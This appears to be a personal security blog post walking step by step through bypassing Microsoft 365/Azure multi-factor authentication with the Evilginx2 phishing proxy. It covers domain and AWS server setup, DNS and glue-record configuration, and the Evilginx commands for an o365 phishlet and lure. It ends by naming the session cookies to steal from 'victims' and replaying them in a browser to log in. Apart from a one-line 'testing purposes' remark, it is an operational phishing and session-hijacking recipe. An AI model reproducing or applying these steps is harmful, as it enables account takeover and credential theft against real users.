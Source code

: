 ```yaml
---
description: >-
  In that blog I will try to explain which implementation that I have done in
  order to bypass MFA in Azure.
---
```


# Bypassing MFA with Evilginx2

### Take a domain name in Freenom.&#x20;

[freenom.com ](https://freenom.com)is giving you great opportunity to take free domain names so just a grab one there.&#x20;

After taking a domain name. You need to create EC2 instance in your AWS accoount. Of course you can use some virtual private server provider or some hosting provider but for me it was easy to configure that in AWS.&#x20;

I have configured AWS ubuntu in my account.&#x20;

And uploaded to there evilginx2 phishing tool. For evilginx2 tool worked properly you should configure DNS records there, without configuring these records it will be hard to get tokens of your victims.&#x20;

As the first step you need to install go in your instance.&#x20;

```
apt install golang-go
go get -u github.com/kgretzky/evilginx2
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
make install
```

&#x20;Now you should not run evilginx because we didn't configure our DNS.&#x20;

Let's turn back to our freenom.com page and manage our domain.&#x20;

![](<../../.gitbook/assets/image (4).png>)



From that section go to DNS configuration place.&#x20;

![](<../../.gitbook/assets/image (5).png>)

Then Manage DNS section.&#x20;

![](<../../.gitbook/assets/image (2).png>)

Put there the subdomains that you want to use. Actually, it depends on which phishlets you will use. But in my case I have used o365 phishlet so, I have added to there `account` and `login`. &#x20;

And your EC2 instance public IP that you will use.&#x20;

After adding these we need to implement our nameserver glue records.&#x20;

![](<../../.gitbook/assets/image (3).png>)

From that section you need to put your domain name records.&#x20;

![](<../../.gitbook/assets/image (1).png>)



In my case, I have added my domain name record there and my public EC2 instance IP.&#x20;

yeah after that comes waiting part because changing these records to be implemented in the system takes time.&#x20;

After adding these sections go to your EC2 instance and connect via the terminal.&#x20;

Probably you will have problem with DNS, HTTPS, HTTP connections. So you need to be aware these are open to all IPs with your security groups.&#x20;

I have done some DNS implementations in my AWS EC2 instance. Maybe that will not work for you case but in case you will have a problem when you run evilginx. Like `Failed to conned port 53` . Here is the solution that worked for me.&#x20;

```
 sudo rm /etc/resolv.conf
 ln -s /run/systemd/resolve/resolv.conf /etc/resolv.conf
 
 systemctl stop systemd-resolved.service
```

in your /etc/hosts file add that section.&#x20;

```
internal-ip yourdomain.com
```

After these configurations run your evilginx with debug because I was not able to configure any phishlet to save tokens.&#x20;



run these commands for running evilginx in debug mode.&#x20;

```
evilginx -debug
```



in evilginx2 run these command,&#x20;

```
config domain yourdomain.com
config ip a.b.c.d

blacklist unauth

phishlets enable o365
lures create o365
lures edit #putIDthere redirect_url https://portal.azure.com
lures get-url #putIDthere

```

After getting the URL from evilginx open an incognito browser and test.&#x20;

In my case, evilginx was not able to save tokens of my victims(my account here). But in debug mode, I was able to see these tokens.&#x20;



For o365 phishlet, you need to sniff these tokens&#x20;

```
ESTSAUTHPERSISTENT
ESTSAUTH
ESTSAUTHLIGHT
SignInStateCookie
```

![](<../../.gitbook/assets/image (2) (1).png>)



After taking these values go to your browser and with cookie editor extension change these while trying to login [https://www.office.com/?auth=2](https://www.office.com/?auth=2) and refresh the page.&#x20;

You are in.&#x20;

```
Please use it for testing purposes. 
```



